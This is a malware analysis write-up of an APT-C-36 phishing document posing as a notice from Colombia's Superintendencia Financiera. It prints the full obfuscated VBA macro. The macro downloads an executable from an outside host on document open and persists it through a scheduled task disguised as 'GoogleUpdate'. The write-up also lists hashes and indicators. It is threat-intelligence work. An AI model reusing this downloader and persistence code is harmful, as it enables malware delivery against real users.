 This is **#APT-C-36**

sha256 : **380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288**

ITW Filename : **Embargo Bancario.doc**

The document seems to be using **Superintendencia Financiera de Colombia** as lure.

![Document](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0001.png)

We can see that there is .mso file with ActiveMIME. Probably containing the VBA that it's downloading and executing the payload.

![ActiveMIME](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0002.png)

Normally i would use Cerbero Suite Advanced to extract it and you will get back something like this shown below.

![VBA](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0003.png)

However, this time round, i made this [script](../../Analysis%20Scripts/pyExtract_ActiveMIME_from_MHTML.py)

We should be able to see the VBA from the extracted ActiveMIME
```vb
' module: ThisDocument

Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Option Explicit

Const TASK_ACTION_EXEC = 0
Const TASK_CREATE_OR_UPDATE = &H6&
Const TASK_LOGON_INTERACTIVE_TOKEN = 3
Const TASK_RUNLEVEL_LUA = 0
Const TASK_RUNLEVEL_HIGHEST = 1
Const TASK_TRIGGER_DAILY = 2
Const THREAD_PRIORITY_BELOW_NORMAL As Long = 8

Public Sub fcL4qOb4()
On Error Resume Next
Dim Issqwe6 As String
Dim m43nrukO6XFjm As Object
Dim NoERgwg0 As Date
NoERgwg0 = Now()
Issqwe6 = Replace$(Format$(NoERgwg0, "yyyymmdd-HhNn"), ".", "-")
With CreateObject("Schedule.Service")
.Connect
Set m43nrukO6XFjm = .NewTask(0)
With m43nrukO6XFjm
With .RegistrationInfo
.Description = "Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema."
.Author = "Google Inc"
End With
With .Principal
.ID = "P" & Issqwe6
.RunLevel = TASK_RUNLEVEL_LUA
End With
With .Settings
.Enabled = True
.StartWhenAvailable = True
.WakeToRun = False
.Priority = THREAD_PRIORITY_BELOW_NORMAL
.DisallowStartIfOnBatteries = False
.RunOnlyIfIdle = False
.StopIfGoingOnBatteries = False
.AllowHardTerminate = True
.Hidden = False
.ExecutionTimeLimit = "PT0S"
.IdleSettings.StopOnIdleEnd = False
End With
With .Triggers.Create(TASK_TRIGGER_DAILY)
.ID = "DAILY"
.StartBoundary = "2015-05-02T06:00:00"
.Enabled = True
.Repetition.Interval = "PT1M"
End With
With .Actions.Create(TASK_ACTION_EXEC)
.Path = Environ("AppData") & "\p.exe" '  AQUI
End With
End With
With .GetFolder("\")
On Error Resume Next
.RegisterTaskDefinition "GoogleUpdate", m43nrukO6XFjm, TASK_CREATE_OR_UPDATE, , , TASK_LOGON_INTERACTIVE_TOKEN
If Err Then
Else
End If
End With
End With
End Sub
Public Sub AukPZZYdNGN()
If "YbSrGzjRToQUjtOcPBd" = "xaHZKOpOaTmjGcA" Then End
End Sub
Public Sub Document_Open()
On Error Resume Next
If 682507832 = 682507832 + 1 Then End
Dim KfsHoGryV As Byte
GoTo WGR
WGR:
Call Main
fcL4qOb4
End Sub
Public Sub uIeRbztQZF()
Dim IRRQUszGlx As Integer
IRRQUszGlx = "2582"
End Sub



' module: Módulo1

Attribute VB_Name = "Módulo1"
Sub Main()
On Error Resume Next
Call ifO7tRe8("http://medicosempresa.com/image/win.jpg", Environ("AppData") & "\p.exe")
End Sub
Public Function uATcQxssrwhovLmlBr()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
End Function
Public Function iyzUQgDlOeKQksiNIIHM()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
Dim CoEHKCbEjT As Currency
CoEHKCbEjT = "1403"
End Function
Function ifO7tRe8(SAS As String, SDE As String) As Long
On Error GoTo 1:
Dim WIIGMumv5k                     As Object
Dim qHKA4mdUzC0               As Object
If 131666564 = 131666564 + 1 Then End
Dim Wck As Double
GoTo qrSbnQ
qrSbnQ:
Set WIIGMumv5k = CreateObject("Microsoft.XMLHTTP")
Set qHKA4mdUzC0 = CreateObject("Adodb.Stream")
If 240525565 = 240525565 + 1 Then End
Dim HJdG As Currency
GoTo OmFeFQKcLi
OmFeFQKcLi:
Call WIIGMumv5k.Open("GET", SAS, 0)
Call WIIGMumv5k.Send
qHKA4mdUzC0.Type = 1
Call qHKA4mdUzC0.Open
Call qHKA4mdUzC0.Write(WIIGMumv5k.responseBody)
Call qHKA4mdUzC0.SaveToFile(SDE, 2)
Call qHKA4mdUzC0.Close
ifO7tRe8 = 1
Exit Function
1:
End Function
Public Sub uFonbMoKQlS()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
End Sub
Public Sub idGVpIcQLrABzEpipThg()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
If "TjbLtvPsxLVqDr" = "EbaBjAnrQr" Then End
End Sub

```
We can see that it's downloading payload from **hxxp://medicosempresa[.]com/image/win.jpg**

We can also see that

|Title|Value|
|---|---|
|Author|Google Inc|
|Description|Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema.|
|Task Action|Launch %AppData%\p.exe|
|Task Definition|GoogleUpdate|

sha256 of **hxxp://medicosempresa[.]com/image/win.jpg** is **436611717cf191ce60d159643e082d83dc6d3dae95965e30aa248385c8e3decb**


Thanks to friends for helping to identify this.
https://twitter.com/Timele9527/status/1141326468200329216

We can see that it's connected to https://ti.qianxin.com/blog/articles/apt-c-36-continuous-attacks-targeting-colombian-government-institutions-and-corporations-en/
